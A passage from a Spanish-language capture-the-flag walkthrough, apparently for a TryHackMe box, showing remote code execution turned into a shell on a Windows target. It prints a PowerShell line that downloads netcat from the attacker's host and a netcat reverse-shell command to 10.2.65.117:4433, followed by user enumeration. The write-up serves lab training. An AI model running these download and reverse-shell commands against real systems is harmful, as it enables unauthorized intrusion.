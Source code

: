 ```bash
❭ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

▸ Agregamos la linea que va a descargar el binario y lo guardara en la carpeta `TEMP` del sistema:

```py
...
proc.StartInfo.FileName = "cmd.exe"; proc.StartInfo.Arguments = @"/c powershell IWR -uri http://10.2.65.117:8000/nc64.exe -OutFile c:\\Windows\\TEMP\\nc.exe";\
...
```

▸ Listamos el directorio `TEMP` para validar:

```py
...
proc.StartInfo.FileName = "cmd.exe"; proc.StartInfo.Arguments = @"/c dir ..\..\..\\Windows\\TEMP";\
...
```

![anthem_bash_pyRCE_dirTEMP_nc](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/THM/anthem/anthem_bash_pyRCE_dirTEMP_nc.png)

Nice, no sé por qué solo se muestra nuestro binario, pero bueno, sabemos que esta, ahora ejecutémoslo:

▸ Nos ponemos en escucha:

```bash
❭ nc -lvp 4433
listening on [any] 4433 ...
```

▸ Le indicamos que nos genere la Reverse Shell:

```py
...
proc.StartInfo.FileName = "cmd.exe"; proc.StartInfo.Arguments = @"/c ..\..\..\\Windows\\TEMP\\nc.exe 10.2.65.117 4433 -e cmd.exe";\
...
```

![anthem_bash_pyRCE_revshell](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/THM/anthem/anthem_bash_pyRCE_revshell.png)

Perfectooooooooooooooooooo, tamos dentro pai (:

Enumerando usuarios tenemos uno conocido:

```powershell
c:\>net user

User accounts for \\

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
**** (acá ta el user u.u)                       WDAGUtilityAccount
```
